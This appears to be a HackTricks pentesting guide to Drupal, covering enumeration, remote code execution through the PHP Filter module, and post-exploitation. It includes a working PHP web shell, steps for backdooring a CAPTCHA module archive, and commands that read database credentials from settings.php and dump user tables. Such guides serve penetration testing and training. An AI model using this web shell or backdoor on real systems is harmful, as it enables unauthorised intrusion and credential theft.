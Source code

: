 # Drupal

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Discovery

* Check **meta**

```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```

* **Node**: Drupal **indexes its content using nodes**. A node can **hold anything** such as a blog post, poll, article, etc. The page URIs are usually of the form `/node/<nodeid>`.

```bash
curl drupal-site.com/node/1
```

## Enumeration

Drupal supports **three types of users** by default:

1. **`Administrator`**: This user has complete control over the Drupal website.
2. **`Authenticated User`**: These users can log in to the website and perform operations such as adding and editing articles based on their permissions.
3. **`Anonymous`**: All website visitors are designated as anonymous. By default, these users are only allowed to read posts.

### Version

* Check `/CHANGELOG.txt`

```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```

{% hint style="info" %}
Newer installs of Drupal by default block access to the `CHANGELOG.txt` and `README.txt` files.
{% endhint %}

### Username enumeration

#### Register

In _/user/register_ just try to create a username and if the name is already taken it will be notified:

![](<../../.gitbook/assets/image (254).png>)

#### Request new password

If you request a new password for an existing username:

![](<../../.gitbook/assets/image (255).png>)

If you request a new password for a non-existent username:

![](<../../.gitbook/assets/image (256).png>)

### Get number of users

Accessing _/user/\<number>_ you can see the number of existing users, in this case is 2 as _/users/3_ returns a not found error:

![](<../../.gitbook/assets/image (257).png>)

![](<../../.gitbook/assets/image (227) (1) (1).png>)

### Hidden pages

**Fuzz `/node/$` where `$` is a number** (from 1 to 500 for example).\
You could find **hidden pages** (test, dev) which are not referenced by the search engines.

#### Installed modules info

```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```

### Automatic

```bash
droopescan scan drupal -u http://drupal-site.local
```

## RCE

### With PHP Filter Module

{% hint style="warning" %}
In older versions of Drupal **(before version 8)**, it was possible to log in as an admin and **enable the `PHP filter` module**, which "Allows embedded PHP code/snippets to be evaluated."
{% endhint %}

You need the **plugin php to be installed** (check it accessing to _/modules/php_ and if it returns a **403** then, **exists**, if **not found**, then the **plugin php isn't installed**)

Go to _Modules_ -> (**Check**) _PHP Filter_ -> _Save configuration_

![](<../../.gitbook/assets/image (247) (1).png>)

Then click on _Add content_ -> Select _Basic Page_ or _Article -_> Write _php shellcode on the body_ -> Select _PHP code_ in _Text format_ -> Select _Preview_

![](<../../.gitbook/assets/image (253) (1).png>)

Finally just access the newly created node:

```bash
curl http://drupal-site.local/node/3
```

### Install PHP Filter Module

From version **8 onwards, the** [**PHP Filter**](https://www.drupal.org/project/php/releases/8.x-1.1) **module is not installed by default**. To leverage this functionality, we would have to **install the module ourselves**.

1. Download the most recent version of the module from the Drupal website.
   1. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
2. Once downloaded go to **`Administration`** > **`Reports`** > **`Available updates`**.
3. Click on **`Browse`**`,` select the file from the directory we downloaded it to, and then click **`Install`**.
4. Once the module is installed, we can click on **`Content`** and **create a new basic page**, similar to how we did in the Drupal 7 example. Again, be sure to **select `PHP code` from the `Text format` dropdown**.

### Backdoored Module

A backdoored module can be created by **adding a shell to an existing module**. Modules can be found on the drupal.org website. Let's pick a module such as [CAPTCHA](https://www.drupal.org/project/captcha). Scroll down and copy the link for the tar.gz [archive](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

* Download the archive and extract its contents.

```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```

* Create a **PHP web shell** with the contents:

```php
<?php
system($_GET["cmd"]);
?>
```

* Next, we need to create a **`.htaccess`** file to give ourselves access to the folder. This is necessary as Drupal denies direct access to the **`/modules`** folder.

```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

* The configuration above will apply rules for the / folder when we request a file in /modules. Copy both of these files to the captcha folder and create an archive.

```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```

* Assuming we have **administrative access** to the website, click on **`Manage`** and then **`Extend`** on the sidebar. Next, click on the **`+ Install new module`** button, and we will be taken to the install page, such as `http://drupal-site.local/admin/modules/install` Browse to the backdoored Captcha archive and click **`Install`**.
* Once the installation succeeds, browse to **`/modules/captcha/shell.php`** to execute commands.

## Post Exploitation

### Read settings.php

```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```

### Dump users from DB

```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```

## References

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
